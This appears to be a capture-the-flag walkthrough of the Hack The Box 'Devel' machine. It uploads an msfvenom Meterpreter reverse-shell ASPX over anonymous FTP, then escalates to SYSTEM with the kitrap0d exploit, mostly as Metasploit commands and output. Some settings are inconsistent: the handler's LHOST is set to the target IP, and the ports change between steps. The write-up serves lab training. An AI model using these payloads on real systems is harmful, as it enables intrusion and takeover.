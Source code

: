 User FLAG
-----

1. Port scan
2. FTP + IIS 7.5
3. FTP anonymous login
4. Find that we can upload files
5. Use msfvenom to create a reverse shell
6. `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > devel.aspx`

- where `LHOST` is the IP of the attacker machine
- where `LPORT` is the port to listen on the attacker machine

7. ftp upload devel.aspx
8. msfconsole
9. use exploit/multi/handler
10. set payload windows/meterpreter/reverse_tcp
11. set LHOST 10.10.10.5
12. set LPORT 4444

- where `LHOST` is the IP of the target machine
- where `LPORT` is the same port as the one used in the msfvenom command

13. set ExitOnSession false
14. exploit -j


```bash
curl http://10.10.10.5/devel.aspx
```

```bash
[-] Handler failed to bind to 10.10.10.5:3333:-  -
[-] Handler failed to bind to 0.0.0.0:3333:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:3333).
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.9:3333 -> 10.10.10.5:49181) at 2024-03-27 00:15:57 -0300
```

```bash
sessions -i 3
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > cd \windows\TEMP
meterpreter > sysinfo
msf6 exploit(multi/handler) > sessions -i 3
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

```bash
meterpreter > run post/multi/recon/local_exploit_suggester                                                                                                                                                                          
[*] 10.10.10.5 - Collecting local exploits for x86/windows...                                                                                                                       
[*] 10.10.10.5 - 193 exploit checks are being tried...                                                                                                                              
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.                                                                                     
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build
 detected!                                                                                                                                                                          
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.                                                                       
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.                                                                    
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.                                                                                   
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.                                                                              
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.                                                                              
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.                                                                      
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.                                                                             
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.                                                                         
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 3: 
```

```bash
background
msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.9 (MY_VPN_IP)      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms10_015_kitrap0d) > 
```

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions ls

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.14.9:4444 -> 10.10.10.5:49180 (10.10.10.5)
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.14.9:3333 -> 10.10.10.5:49181 (10.10.10.5)

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[-] Handler failed to bind to 10.10.14.9:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 3124 launched.
[*] Reflectively injecting the DLL into 3124...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.9:4444 -> 10.10.10.5:49182) at 2024-03-27 00:31:43 -0300
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## Versions

FTP
IIS 7.5

## Links

- https://debugah.com/problems-of-entering-extended-passive-mode-encountered-in-ftp-how-to-solve-15292/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services
- https://github.com/rapid7/metasploit-framework/issues/16007
- https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/